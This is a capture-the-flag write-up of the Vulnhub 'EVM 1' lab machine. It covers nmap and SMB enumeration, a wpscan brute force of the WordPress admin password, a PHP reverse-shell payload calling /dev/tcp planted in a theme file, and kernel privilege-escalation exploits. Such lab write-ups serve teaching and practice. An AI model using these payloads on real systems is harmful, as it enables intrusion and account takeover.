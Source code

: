 +++
title = "Vulnhub: EVM 1"
date = "2021-03-05"
author = ""
authorTwitter = "" #do not include @
cover = ""
tags = ["Beginner", "Vulnhub", "OSCP Prep", "Password Bruteforce", "WordPress", "WPScan"]
keywords = ["", ""]
description = ""
showFullContent = false
+++

<!--more-->
{{< image src="/img/evm/evm.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

| Difficulty | Release Date | Author | Machine link |
| ---------- | ------------ | ------ | ------- |
| Beginner   | 2 Nov 2019   | Ic0de  | https://vulnhub.com/entry/evm-1,391/ |


# Summary

This was an easy box, initial foothold was on wordpress. You needed to bruteforce the admin creds
then get a reverse shell via editing a theme file to get the reverse shell. Escalating to root
was straightforward as we found the root password in a txt file. Some kernel exploits could have also
been used for privilege escalation.

# Reconnaissance

Nmap

```sh
Nmap scan report for 192.168.56.103
Host is up (0.00028s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a2:d3:34:13:62:b1:18:a3:dd:db:35:c5:5a:b7:c0:78 (RSA)
|   256 85:48:53:2a:50:c5:a0:b7:1a:ee:a4:d8:12:8e:1c:ce (ECDSA)
|_  256 36:22:92:c7:32:22:e3:34:51:bc:0e:74:9f:1c:db:aa (ED25519)
53/tcp  open  domain      ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: CAPA RESP-CODES SASL AUTH-RESP-CODE TOP UIDL PIPELINING
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: more post-login LOGINDISABLEDA0001 ID LOGIN-REFERRALS listed IMAP4rev1 have capabilities OK ENABLE Pre-login LITERAL+ SASL-IR IDLE
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h39m59s, deviation: 2h53m12s, median: -1s
|_nbstat: NetBIOS name: UBUNTU-EXTERMEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: ubuntu-extermely-vulnerable-m4ch1ine
|   NetBIOS computer name: UBUNTU-EXTERMELY-VULNERABLE-M4CH1INE\x00
|   Domain name: \x00
|   FQDN: ubuntu-extermely-vulnerable-m4ch1ine
|_  System time: 2021-03-04T15:43:32-05:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-03-04T20:43:32
|_  start_date: N/A
```

# Enumeration

## Samba (139,445)

Running smbmap and smbclient there's not much there.

```sh
smbmap -R -H 192.168.56.103

smbclient -L \\192.168.56.103 -N
```

{{< image src="/img/evm/evm1.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

From enum4linux-ng we only get a username

```sh
enum4linux-ng -A -R 192.168.56.103
```

{{< image src="/img/evm/evm2.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

## HTTP (80)

Visiting the ip on the browser there's only the apache default page.

Running directory bruteforce, we discover wordpress. 

{{< image src="/img/evm/evm3.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Wordpress:

{{< image src="/img/evm/evm4.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Some of the comments hint towards bruteforcing credentials.

{{< image src="/img/evm/evm5.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Bruteforcing the login page on wordpress we get the password `24992499`

```sh
wpscan --url http://192.168.56.103/wordpress/ -U c0rrupt3d_brain -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-75.txt -t 100
```

{{< image src="/img/evm/evm7.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Shell as www-data
With admin access we can edit one of the wordpress theme files to get a reverse shell with this php payload.

```php
<?php exec("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.56.1/9000 0>&1 &'")?>
```

{{< image src="/img/evm/evm6.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Loading the following url we get a reverse shell.

```
http://192.168.56.103/wordpress/wp-content/themes/twentynineteen/404.php
```

{{< image src="/img/evm/evm8.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Changing directory to /home there's one user's folder. Looking at all the files in this directory there's a hidden
file with the root user's password.
 
{{< image src="/img/evm/evm9.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Shell as root

Using the password `willy26` I switched to the root user.

{{< image src="/img/evm/evm10.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

# Extras

Privilege escalation could have also been achieved via kernel exploit.

{{< image src="/img/evm/evm11.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

The box is running ubuntu 16.04.3 and kernel version 4.4.0-87. Searching for exploits using searchsploit
we get several hits.

{{< image src="/img/evm/evm12.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

Getting the first local privilege escalation script and transferring the compiled binary to the target, it works.
```sh
searchsploit -m 45010

gcc 45010.c -o pwn
```

{{< image src="/img/evm/evm13.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}

The second one `44298` also works.

{{< image src="/img/evm/evm14.png" alt="symfonos" position="center" style="border-radius: 8px;" >}}
